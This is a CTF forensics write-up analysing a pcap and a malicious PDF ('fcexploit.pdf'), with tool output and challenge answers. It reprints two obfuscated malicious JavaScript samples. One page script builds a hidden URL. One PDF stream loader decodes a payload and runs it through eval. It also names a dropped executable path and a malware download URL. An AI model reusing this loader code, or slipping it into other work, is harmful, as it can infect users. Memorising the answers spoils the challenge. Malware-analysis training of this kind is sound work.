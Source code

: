 ```yaml
---
layout: post
title: GetPDF Threat Hunting writeup
categories: [CTF, Forensics, Threat-Hunting]
tags: [CTF, Malware-Analysis, Incident-Response, Blue-team]
---
```

Point: 1200

<https://cyberdefenders.org/blueteam-ctf-challenges/progress/rootware/47/>

## Category

Forensics, Threat-Hunting, Malware-Analysis

## Solution

### How many URL path(s) are involved in this incident?

```text
http.request.method == GET
```

![urls](/assets/img/blogImages/getPDF1.png)
There are altogether 6 unique URLs after analyzing the pcap file in wireshark.
Answer: 6

### What is the URL which contains the JS code?

![jsurl](/assets/img/blogImages/getPDF2.png)
So the full URL path that contains the JS code is
<http://blog.honeynet.org.my/forensic_challenge/>

### What is the URL hidden in the JS code?

After extracting the JS code and using beautifier.io to decipher the JS code, we can see that the code is constructing a URL.

```javascript
var DepanNegw = window;
var DexeTelae = -44;
DexeTelae += 45;
XayeZebah = 'nedajemac';
var GaDemee = 'e5vfqaIVblI5'.replace(/[5fqIVbI5]/g, '');
ZavevTa = 'fazemezarawaseb';
var MezRai = parseInt;
var DayahDet = 'zafezed lacet cetexet jevecakemahamaha febenep cafa fezebefe yelaxa xejarer hejefaqazedeka kebeneh petaqe zevexej jenewabahegehar jabevame bayap def vasefezetevamer nefelaba sezaxewe qajeqeme wet reyeqer magemefele xelawece denew jafelev haweqa kel vatabaser mag vejefama xeca canapevezejev benaper gezazevaja zeyaxaf wehekeh jecalava set senajaj re kameken bazafakaqewate zaralek yecele kak s hexebeka heha jeyeteg sase wayefewa tey gawewem wefaravavepayeke xedevec gavayedegeqer casehes watenanesajet jelagal payevexebe pejasep heqefagabexemew deheler vejegeca hece rafenadamenaxe jaz fex hekases pazetepajamelew cerasej nevayezabevepeke pex gey dac g dezaleza kekeqebe peyemaf sevanededa cefagey defef cexaqehe sebex galahal zadaxaran lava falamedejegase set law mefe wa mex ces nam j xaxaped gexeqageb feqeled daseze tehadeh zeheteyera xanahef wepahena xarakel gadazecaq tabexape dareq seje lejegagaxavade haf jaz cewe me cag kem fed h legefaz taw keyacah wefereweverewaze rapecame kas fagavev facez yefeley lareke seperene gav lece gahepegesafeve dez gen yeje s waz qas xap c hademax mezezah qepawehe vad zejates pe cehajeg sabebaseqeseda sekesav nebeda cagareg kec fexewel bejewagedegeqene bajesade lav pasepad baraj xecavan vedepe veranake vej heva kejajemacajada wez saj vele x qaj vad fag y qetamefe jaxa kamatare net zeheweh jeme bale cexebedeleneye dab vev kekaxex jetecajek lejekabe qalef bevegeye caxeb beleteqe r hele saxafexazat baz dehakajegeqeneke met mefepexafecebera qwertyu iop asdfghj klzxcvbnmqwer tyuiopa sdfghjklzxcvbnmq hjklzxc vbnmqwer tyu iopasdfghjklzxc vbnmqwe rtyuiopas dfghjkl zxcvbnmqwertyuio pasdfgh jklzxcvbnmqwert yuiopas dfghjk lzxcvbnm qwertyuiop asdfghj klzxcvbnmqwerty uiopasd fghjkl zxcvbnmq werty uio pasdfghjklzxcvb nmqwert yuiopasdfghjklzx cvbnmqwe rty uiopasd fghjklzx uio pasdfghjklzxcvb nmqwert uiopasdfghjklz qwertyui opasdfghjk xcr vbnmqwertyuiopar sdfghjr klzxcvr bnmqwer rtyuiopasdfghjkr lzxcvbnr mqr wertyur iopasr dfghjkr lzxcvbnmqwertyr uiopasdr fghr jklzxcr vbnmqwertr yuiopar sdfr ghjklr zxcvbnmqwertyuir opasdfr ghjr klzxcvr bnmqwertr yuiopar sr dfghjkr lzxcvbnmqwerr dfghjkr lzxcvbnmqwerr tyuiopr asdfgr hjklzxr cvbnmqwertyuior pasdfgr hjklzxcr vbnmqwr ertyur met mefepexafecebera xanahef wepahena feqeled daseze tabexape dareq zexelede l cefagey defef hademax mezezah req batekeqaheteceh zateyene c zekeqay ratevecek veheleqe k dec tec xece jefexazeqayefes cama bapevexeladet keh lanawebasegecaja qefejev qepetekene dacegas relevaj fecasece ber veyayes ba kajebed savaketegemeqe wepecer lamege tere ratavacevejezax gey dasalaje gav yepakekehe'.split(' ');
var ZeJexn = '';
var SerayYafags = String;
var KesXanavn = -50;
KesXanavn += 66;
XadHef = 78;
var BeZao = 47;
BeZao += -47;
var FeceSabejo = -46;
FeceSabejo += 48;
GebJep = 92;
var SeWajec = 'ftr9wogmBwJCW5h6aixrPRCs1ZonjHjdjKueMkD'.replace(/[t9wgBwJW56ixPRs1ZnjHjjKuMkD]/g, '');
MaqTa = 5;
GaDemee = DepanNegw[GaDemee];
SeWajec = SerayYafags[SeWajec];
for (YajMedei = BeZao; YajMedei < DayahDet.length - 1; YajMedei += FeceSabejo) ZeJexn += SeWajec(MezRai((DayahDet[YajMedei + BeZao].length - 1).toString(KesXanavn) + (DayahDet[YajMedei + DexeTelae].length - 1).toString(KesXanavn), KesXanavn));
GaDemee(ZeJexn);
```

The code is run in chrome browser console and returned an error message saying that it is actually requesting a URL which is blocked by chrome due to the request being insecure
<http://blog.honeynet.org.my/forensic_challenge/getpdf.php>

### What is the MD5 hash of the PDF file contained in the packet?

1. Export the `fcexploit.pdf` file from the http requests within wireshark.
2. Hash the file using md5 command as below.

```bash
md5 fcexploit.pdf 
```

```shell
MD5 (fcexploit.pdf) = 659cf4c6baa87b082227540047538c2a
```

### How many object(s) are contained inside the PDF file?

```bash
wget https://raw.githubusercontent.com/mlodic/pdfid/main/pdfid/pdfid.py
python pdfid.py fcexploit.pdf
```

```shell
PDFiD 0.2.7 fcexploit.pdf
 PDF Header: %PDF-1.3
 obj                   19
 endobj                18
 stream                 5
 endstream              5
 xref                   1
 trailer                1
 startxref              1
 /Page                  2
 /Encrypt               0
 /ObjStm                0
 /JS                    1
 /JavaScript            1
 /AA                    0
 /OpenAction            1
 /AcroForm              1
 /JBIG2Decode           0
 /RichMedia             0
 /Launch                0
 /EmbeddedFile          1
 /XFA                   1
 /Colors > 2^24         0
```

There are 19 objects.

### How many filtering schemes are used for the object streams?

By user pdf-parser the pdf file's streams can be analyzed

```bash
pdf-parser fcexploit.pdf  
```

```shell
obj 4 0
 Type: /Action
 Referencing: 5 0 R

  <<
    /Type /Action
    /S /JavaScript
    /JS 5 0 R
  >>


obj 5 0
 Type: 
 Referencing: 
 Contains stream

  <<
    /Length 395
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  >>
```

In the output above object 4 which contains javascript code is referencing object 5 which filters the contents of object 4. From the `/Filter` we can see that there are 4 encoding functions.

### What is the number of the 'object stream' that might contain malicious JS code?

```javascript
var SSS = null;
var SS = "ev";
var $S = "";
$5 = "in";
app.doc.syncAnnotScan();
S$ = "ti";
if (app.plugIns.length != 0) {
    var $$ = 0;
    S$ += "tl";
    $5 += "fo";
    ____SSS = app.doc.getAnnots({nPage: 0});
    S$ += "e";
    $S = this.info.title;
}
var S5 = "";
if (app.plugIns.length > 3) {
    SS += "a";
    var arr = $S.split(/U_155bf62c9aU_7917ab39/);
    for (var $ = 1; $ < arr.length; $++) {
        S5 += String.fromCharCode("0x" + arr[$]);
    }
    SS += "l";
}
if (app.plugIns.length >= 2) {
    app[SS](S5);
}
```

The above stream contains malicious JS code.
Answer: 5

### Analyzing the PDF file. What 'object-streams' contain the JS code responsible for executing the shellcodes? The JS code is divided into two streams. Format: two numbers separated with ','. Put the numbers in ascending order

Analyze the PDF file in PDFStreamDumper. Debug the JS script in object 5. The JS gets the content of the 10th object stream and removes the "U_155bf62c9aU_7917ab39" string from it.

Scan the resulted JS code from the previous step. The JS gets the content of the 9th object stream and removes the "X_17844743X_170987743" string from it, then gets the content of the 7th stream and removes the "89af50d" string, then concatenate the 2 JS code. The answer is 7,9

### The JS code responsible for executing the exploit contains shellcodes that drop malicious executable files. What is the full path of malicious executable files after being dropped by the malware on the victim machine?

The JS code contains 4 different versions of the same shellcode.

Using scdbg to emulate any one of the shellcodes. You will find that the shellcode calls URLDownloadToFileA API. The answer is c:\WINDOWS\system32\a.exe

### The PDF file contains another exploit related to CVE-2010-0188. What is the URL of the malicious executable that the shellcode associated with this exploit drop?

Using `pdf-parser -a fcexploit.pdf` command. You will get that the 11th object stream contains an Embedded object.

Analyze the PDF in PDFStreamDumper and check the 11th object stream in the PDF file. Extract the content of the object stream.

Use file utility to check the file type. The file is Zlib compressed. Use PDFStreamDumper -> Tools -> Zlib Decompress_file to get the actual content of the exploit

Decode the base64 string you will get the shellcode. Using scdbg to emulate the shellcode. The URL is <http://blog.honeynet.org.my/forensic_challenge/the_real_malware.exe>

### How many CVEs are included in the PDF file?

Answer: 5
The JS code extracted from the 7th and 9th streams contains 4 CVEs, and the 11th stream has the 5th one.

